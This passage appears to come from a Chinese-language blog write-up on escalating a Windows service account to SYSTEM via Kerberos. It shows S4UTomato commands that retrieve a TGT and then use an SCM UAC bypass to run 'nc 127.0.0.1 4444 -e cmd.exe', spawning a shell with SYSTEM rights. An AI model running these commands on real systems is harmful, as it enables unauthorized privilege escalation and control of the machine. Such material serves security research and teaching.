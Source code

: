 最终通过 SCMUACBypass 访问 Service Control Manager（SCM）创建系统服务，从而获取 SYSTEM 权限，执行效果如下所示。

```console
# 先通过 Tgtdeleg 检索 TGT
S4UTomato.exe tgtdeleg
# 再执行 SCMUACBypass 获取 SYSTEM 权限
S4UTomato.exe krbscm -c "nc 127.0.0.1 4444 -e cmd.exe"
```

![tgtdeleg](/assets/posts/2023-08-02-escalate-service-account-to-localSystem-via-kerberos/tgtdeleg.gif)

